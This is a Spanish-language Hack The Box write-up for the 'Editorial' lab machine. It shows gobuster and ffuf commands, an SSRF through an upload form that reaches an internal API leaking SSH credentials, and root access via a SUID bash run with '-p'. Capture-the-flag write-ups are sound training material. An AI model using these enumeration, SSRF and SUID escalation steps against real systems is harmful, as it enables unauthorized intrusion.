 # User flag

Para empezar, ejecutamos un nmap sobre la IP de la máquina target con lo que vemos cuales son los puertos que tiene abiertos.

![Nmap](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/Nmap.png)

Observamos que el puerto 80 está abierto por lo que consultamos la página web.
Como de costumbre, hacemos fuzzing de directorios y encontramos un potencial vector de ataque en el directiorio `upload`.
```bash
gobuster dir -u http://editorial.htb  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200
```
![upload](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/upload.png)

Después de intentar subir varios tipos de archivos con payloads maliciosos sin éxito, me fijé en el otro campo de input, que nos permite insertar una URL. Lo primero que se me ocurrió fue ejecutar un SSRF buscando archivos de configuración típicos.



Después de que esto no funcionara decidí probar con los puertos. Para ello capturé la petición con Burpsuite, creé un archivo con todos los puertos y utilicé `ffuf`para ver si encontraba algun puerto accesible.
```bash
ffuf -u http://editorial.htb/upload-cover -X POST -request request.txr -w ports.txt -fs 61
```
![ffuf](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/ffuf.png)

Si lanzamos la petición haciendo referencia a este puerto y capturamos la respuesta con Burpsuite, vemos que se nos proporciona un endpoint específico.

![response ssrf](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/response%20ssrf.png)

Si visitamos dicho endpoint en el navegador se nos descarga un archivo con el siguiente contenido:
```bash
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```
 Después de visitar varios de los endpoints realizando el SSRF de la misma forma observamos que en al hacer la petición para el endpoint `http://localhost:5000/api/latest/metadata/messages/authors` encontramos el siguiente mensaje:
```bash
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```
Si probamos a acceder con ssh usando las credenciales del mensaje tenemos éxito.

![reverseshell](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/reverseshell.png)

Y ya con esto podemos obtener la flag de user.

![userflag](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/userflag.png)

# Root flag
Para empezar la escalada de privilegios intenté ejecutar `sudo -l` pero nuestro usuario no está en el grupo de sudoers. Posteriormente listé el directorio `/home` encontrando el usuario `prod`.

Para facilitar el proceso de escalada de privilegios utilizamos **linpeas**. Al ejecutarlo encontramos lo siguiente: 

![linpeas](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/linpeas.png)

El archivo `/usr/bin/bash` tiene el SUID bit activo, lo que significa que culquier usuario que ejecute el archivo lo hará con los permisos del dueño del archivo, en este caso root. 

Así entonces, si ejecutamos el comando `/usr/bin/bash -p` spawneamos una nueva shell con privilegios de root.

![rootflag](https://github.com/R-kill-9/HTB-WriteUps/blob/main/Editorial-writeup/Images/rootflag.png)

